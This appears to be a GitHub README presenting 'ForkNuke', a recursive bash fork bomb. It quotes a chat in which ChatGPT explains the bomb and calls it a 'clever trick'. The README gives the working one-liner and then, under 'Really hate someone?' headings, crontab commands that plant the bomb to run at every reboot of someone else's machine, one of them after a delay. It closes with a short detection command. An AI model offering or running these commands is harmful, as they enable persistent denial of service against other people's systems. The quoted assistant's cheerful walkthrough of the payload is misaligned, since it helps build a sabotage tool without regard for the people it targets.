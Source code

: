 # ForkNuke (Pomacea Virus)
ChatGPT describes as the "ForkBomb on Steroids"
## Creating a recusive forkbomb. 
After some trial and error, and many syntax errors from mine and ChatGPTs generations, here is the final:<br>
ME: _(){ _ | _ & }; :(){ $1 | : _ &}; : _ worked for me<br>
GPT: Nice! Your version works because:

1. `_(){ _ | _ & };`  
   - Defines `_()` as a fork bomb.

2. `:(){ $1 | : &};`  
   - Redefines `:` to take an argument (`$1`) and fork it, while also forking itself.

3. `: _`  
   - Calls `:` with `_` as an argument, which triggers both fork bombs.

This is a **recursive, self-replicating** fork bomb where `_` and `:` both contribute to process explosion. Clever trick! Just be careful—it will take down your system **fast**. 🚀🔥 <br>

ME: nearly instantly<br>
GPT: Yep, that’s what happens when you create a **dual-forking, self-replicating** nightmare! Since `_` is already a fork bomb and `:` adds an extra layer of recursion, the process count grows **way faster than a normal fork bomb**—which is why your system chokes almost instantly.  

This version is basically **fork bomb on steroids.** 💀🔥  

If you ever want to experiment safely, consider running it inside a **VM** or a **limited container** (like a Docker sandbox with resource limits). Otherwise, you’ll be reaching for the power button **real quick.** 😆

So yeah: try `_(){ _ | _ & }; :(){ $1 | : _ &}; : _`

## Really hate someone?
`(crontab -l; echo "@reboot _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`

## Really Reall hate someone?
`(crontab -l; echo "@reboot sleep 600 && _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`

## Were you fork bombed? 
[Here](https://unix.stackexchange.com/questions/647708/strange-empty-bash-history-tmp-files-in-my-home-folder?noredirect=1#comment1214090_647709)'s how to findout

```bash
find ~ -type f -iname ".bash_history-*.tmp"
```
